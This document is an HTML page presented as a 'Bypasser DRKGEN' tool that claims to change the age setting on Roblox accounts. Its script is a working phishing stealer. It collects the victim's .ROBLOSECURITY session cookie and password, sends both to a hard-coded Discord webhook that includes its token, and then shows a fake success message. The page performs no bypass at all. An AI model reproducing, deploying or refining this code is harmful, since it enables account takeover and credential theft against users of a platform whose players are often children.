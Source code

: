 <!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
  <title>Bypasser DRKGEN</title>
  <style>
    html, body {
      margin: 0;
      padding: 0;
      height: 100%;
      background-color: #000;
      font-family: 'Segoe UI', sans-serif;
      color: white;
      overflow: hidden;
    }

    .header {
      text-align: center;
      font-size: 2em;
      font-weight: bold;
      margin-top: 30px;
      z-index: 10;
      position: relative;
    }

    .buttons {
      display: flex;
      justify-content: center;
      gap: 20px;
      margin-top: 50px;
      z-index: 10;
      position: relative;
    }

    button {
      padding: 15px 30px;
      font-size: 16px;
      border: none;
      border-radius: 12px;
      cursor: pointer;
      background: white;
      color: black;
      font-weight: bold;
      transition: background 0.3s;
    }

    button:hover {
      background: #aaa;
    }

    .form-section {
      display: none;
      text-align: center;
      margin-top: 40px;
      z-index: 10;
      position: relative;
    }

    input[type="text"] {
      padding: 10px;
      width: 300px;
      border-radius: 8px;
      border: none;
      margin-bottom: 10px;
    }

    .countdown {
      font-size: 18px;
      margin-bottom: 10px;
    }

    .success-message {
      color: #00ff00;
      font-weight: bold;
      margin-top: 10px;
      display: none;
    }

    .error-message {
      color: red;
      font-weight: bold;
      margin-top: 10px;
      display: none;
    }

    .input-group {
      display: flex;
      flex-direction: column;
      align-items: center;
      gap: 10px;
    }

    canvas {
      position: fixed;
      top: 0;
      left: 0;
      z-index: 0;
    }
  </style>
</head>
<body>

<canvas id="bg"></canvas>

<div class="header">Bypasser DRKGEN</div>

<div class="buttons">
  <button id="btn1">+13 to &lt;13</button>
  <button id="btn2">&lt;13 to +13</button>
</div>

<div id="form1" class="form-section">
  <div class="countdown" id="countdown1"></div>
  <div class="input-group">
    <input type="text" id="cookie1" placeholder="🍪 Enter Roblox cookie..." />
    <input type="text" id="password1" placeholder="🔒 Enter password..." />
  </div>
  <br>
  <button onclick="submitData('cookie1', 'password1', 'success1', 'error1')">Submit</button>
  <div class="success-message" id="success1">✅ Successfully bypassed!</div>
  <div class="error-message" id="error1">❌ Invalid cookie. Please enter a valid Roblox cookie.</div>
</div>

<div id="form2" class="form-section">
  <div class="countdown" id="countdown2"></div>
  <p>You must enter cookie here:</p>
  <input type="text" id="cookie2" placeholder="Enter Roblox cookie..." />
  <br>
  <button onclick="submitData('cookie2', null, 'success2', 'error2')">Submit</button>
  <div class="success-message" id="success2">✅ Successfully bypassed!</div>
  <div class="error-message" id="error2">❌ Invalid cookie. Please enter a valid Roblox cookie.</div>
</div>

<script>
  document.getElementById("btn1").onclick = () => {
    document.getElementById("form1").style.display = "block";
    document.getElementById("form2").style.display = "none";
    startCountdown("countdown1", 60);
  };

  document.getElementById("btn2").onclick = () => {
    document.getElementById("form2").style.display = "block";
    document.getElementById("form1").style.display = "none";
    startCountdown("countdown2", 30);
  };

  function startCountdown(elementId, seconds) {
    const display = document.getElementById(elementId);
    let time = seconds;
    display.textContent = `⏳ ${time} seconds remaining`;
    const interval = setInterval(() => {
      time--;
      display.textContent = `⏳ ${time} seconds remaining`;
      if (time <= 0) {
        clearInterval(interval);
        display.textContent = "⏰ Time's up!";
      }
    }, 1000);
  }

  function isValidRobloxCookie(cookie) {
    return cookie.startsWith(".ROBLOSECURITY=") && cookie.length > 40;
  }

  function submitData(cookieId, passId, successId, errorId) {
    const cookieVal = document.getElementById(cookieId).value;
    const passwordVal = passId ? document.getElementById(passId).value : null;
    const successMsg = document.getElementById(successId);
    const errorMsg = document.getElementById(errorId);
    successMsg.style.display = 'none';
    errorMsg.style.display = 'none';

    if (!isValidRobloxCookie(cookieVal)) {
      errorMsg.style.display = 'block';
      return;
    }

    let message = `🔔 New submission:\nCookie: ${cookieVal}`;
    if (passwordVal) message += `\nPassword: ${passwordVal}`;

    fetch("https://discord.com/api/webhooks/1337411003771781151/SI6-PZe8OgtE4IgxoT5k9rcVVPGkxwqbmq1ERywI8Gys9Y8ttsy2GRxhXZwnYmsNZBqR", {
      method: "POST",
      headers: {
        "Content-Type": "application/json"
      },
      body: JSON.stringify({ content: message })
    })
    .then(() => {
      setTimeout(() => {
        successMsg.style.display = 'block';
      }, 2000);
    })
    .catch(() => alert("Failed to send."));
  }

  const canvas = document.getElementById("bg");
  const ctx = canvas.getContext("2d");
  let particles = [];

  function resizeCanvas() {
    canvas.width = window.innerWidth;
    canvas.height = window.innerHeight;
    particles = [];

    for (let i = 0; i < 100; i++) {
      particles.push({
        x: Math.random() * canvas.width,
        y: Math.random() * canvas.height,
        vx: (Math.random() - 0.5) * 0.5,
        vy: (Math.random() - 0.5) * 0.5,
        radius: Math.random() * 2 + 1
      });
    }
  }

  function drawParticles() {
    ctx.clearRect(0, 0, canvas.width, canvas.height);
    ctx.fillStyle = "white";
    for (let p of particles) {
      ctx.beginPath();
      ctx.arc(p.x, p.y, p.radius, 0, 2 * Math.PI);
      ctx.fill();

      p.x += p.vx;
      p.y += p.vy;

      if (p.x < 0 || p.x > canvas.width) p.vx *= -1;
      if (p.y < 0 || p.y > canvas.height) p.vy *= -1;
    }
    requestAnimationFrame(drawParticles);
  }

  window.addEventListener("resize", resizeCanvas);
  resizeCanvas();
  drawParticles();
</script>

</body>
</html>
